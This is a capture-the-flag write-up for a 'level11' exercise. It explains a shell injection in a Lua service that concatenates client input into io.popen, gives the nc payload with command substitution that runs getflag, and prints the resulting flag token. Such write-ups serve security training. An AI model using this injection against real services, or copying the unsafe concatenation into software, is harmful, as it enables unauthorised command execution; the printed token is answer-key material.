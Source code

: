 # level11

1. Files found in `~/` :

    ```bash
    level11.lua
    ```

2. Analysis of the `level11.lua` script

    The service listens on `127.0.0.1:5151` and reads a line provided by the client.
    It then executes :

    ```lua
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    ```

    Problem : the `pass` variable is **concatenated** directly into a shell command → **shell injection possible** (substitutions `$(...)`, backticks, `;`, redirections, etc.).

3. Exploitation

    The process executes with the rights of `flag11` → the objective is to execute `/bin/getflag` on the server side and write the output to a file readable by the user.

    ```bash
    # send the payload to the service (from the same machine, as the service binds 127.0.0.1)
    echo '$(/bin/getflag > /tmp/flag11; chmod 644 /tmp/flag11)' | nc 127.0.0.1 5151

    # retrieve the created token
    cat /tmp/flag11
    ```

4. Token discovered

    The token is : `fa6v5ateaw21peobuub8ipe6s`